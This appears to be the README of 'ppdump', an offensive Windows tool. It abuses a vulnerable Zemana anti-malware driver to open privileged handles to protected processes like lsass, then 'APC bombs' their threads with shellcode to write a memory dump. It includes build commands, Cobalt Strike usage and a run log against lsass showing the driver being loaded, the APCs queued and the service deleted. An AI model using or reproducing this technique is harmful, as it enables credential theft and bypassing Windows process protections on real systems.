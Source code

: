## About

The bug that I abuse  goes to [@Dark_Puzzle](https://twitter.com/Dark_Puzzle) whom disclosed [here](http://rce4fun.blogspot.com/2018/02/malwarefox-antimalware-zam64sys.html) the privileged registration with Zemana AntiMalware. I only expanded upon this to use an additional IOCTL to open a thread with FULL_ACCESS (but still with some limitations!).

Protected Process (Light) on the latest iterations of Microsoft Windows has become the bane of most attackers - it prevents tools such as Mimikatz from obtaining a privileged handle to critical processes such as lsass, winlogon, and crss, all of which control the Microsoft kernel in various ways. As such, I studied various means of attacking the kernel and discovered one particular way which succeeded - using a stolen kernel driver to open a privileged handle the process and its underlying threads.

Using these privileged handles, I was able to successfully "APC Bomb" each individual threads until it reached an altertable state by using QueueUserAPC, and Stomping / Resuming the threads a multitude of times. 

### Build

The ppdump module can be built using `Make` and `Mingw-W64`. Simply download the make build system using your favorite package manager, as well the Mingw compiler package, and then run `make`. 

```sh 
$ make
make -f Makefile.x64
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x64.h src/zam.x64.h
cp -rf src/shellcode/payload.x64.h src/payload.x64.h
x86_64-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x64.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public'
make -f Makefile.x86
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x86.h src/zam.x86.h
cp -rf src/shellcode/payload.x86.h src/payload.x86.h
i686-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x86.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public
$ file ppdump.x64.dll ppdump.x64.dll
```

### Usage

Firstly, load the provided Cobalt Strike Aggresor Script into your script resource / console. Afterwards, using `ppdump` command with the provided PID (Process ID) of the target process - pass `ppdump <pid>`, which will kick off the Reflective Module loading process, and then start initializing the driver. A successful run with the process ID of Lsa should result in the following.

```
beacon> ppdump 820
[ ] driver will be stored in C:\WINDOWS\TEMP\tiGr4.sys
[ ] minidump will be stored in C:\WINDOWS\TEMP\usaxb.dmp
[+] Wrote 232792 to C:\WINDOWS\TEMP\tiGr4.sys successfully
[ ] attemping to load C:\WINDOWS\TEMP\tiGr4.sys with service control manager
[ ] registered service tiGr4.sys successfully
[ ] started service tiGr4.sys successfully
[+] LoadDriver() successfully loaded the driver
[ ] Calling ZemanaRegisterProcess() to add 3616
[ ] Opening target process -> 820

 ======= ENTER THE DANGER ZONE =======
[ ] MiniDumpWriteDump Shellcode is 1025 bytes
[ ] Attemping to APC Bomb All Threads
[+] apc successfully queued for 836
[+] apc successfully queued for 848
[+] apc successfully queued for 852
[+] apc successfully queued for 864
[+] apc successfully queued for 3456
[+] apc successfully queued for 4044
[+] apc successfully queued for 344
 ======= LEAVE THE DANGER ZONE =======

[ ] deleted service tiGr4.sys successfully
```

![](https://gitlab.guidepointsecurity.com/austin-hudson/ppdump/blob/master/ppldump_x64_proof_apc_bomb.png)

## Bugs
**NOTE**: Please do not run multiple instances of the ppdump command - wait until one has completed before running another. This is because only one driver can be loaded at a time - so if two are loaded at the same time, the process tends to break quiet quickly. Furthermore some of the threads will lock up during the injection process.
